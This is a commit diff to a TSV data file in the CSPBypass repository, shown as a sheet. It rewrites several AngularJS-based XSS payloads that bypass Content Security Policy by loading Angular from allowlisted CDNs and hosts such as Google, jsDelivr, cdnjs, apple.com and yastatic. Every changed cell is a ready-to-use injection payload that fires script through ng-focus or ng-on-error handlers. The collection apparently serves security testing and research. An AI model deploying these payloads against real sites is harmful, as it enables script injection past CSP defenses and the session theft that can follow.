

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
refactor angular.js

```diff
--- a/data.tsv
+++ b/data.tsv
-B7: <body ng-app ng-csp><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B7: <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B46: <body ng-app ng-csp><script src="https://cdn.jsdelivr.net/npm/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B46: <script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B51: <body ng-app ng-csp><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B51: <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B54: <body ng-app ng-csp><script src="https://code.angularjs.org/1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B54: <script src="https://code.angularjs.org/1.8.2/angular.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B61: <body ng-app ng-csp><script src="https://developer.apple.com/search/scripts/vendor/angular-custom.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B61: <script src="https://developer.apple.com/search/scripts/vendor/angular-custom.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B174: <body ng-app ng-csp><script src="https://www.yastat.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B174: <script src="https://www.yastat.net/s3/milab/js/angular.min.js"></script><div ng-app><input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B175: <body ng-app ng-csp><script src="https://www.yastatic.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B175: <script src="https://www.yastatic.net/s3/milab/js/angular.min.js"></script><div ng-app><input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B178: <body ng-app ng-csp><script src="https://yastat.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B178: <script src="https://yastat.net/s3/milab/js/angular.min.js"></script><div ng-app><input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-B179: <body ng-app ng-csp><script src="https://yastatic.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+B179: <script src="https://yastatic.net/s3/milab/js/angular.min.js"></script><div ng-app><input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
```
Also changed, not shown: 5 edited cells elsewhere in this file.
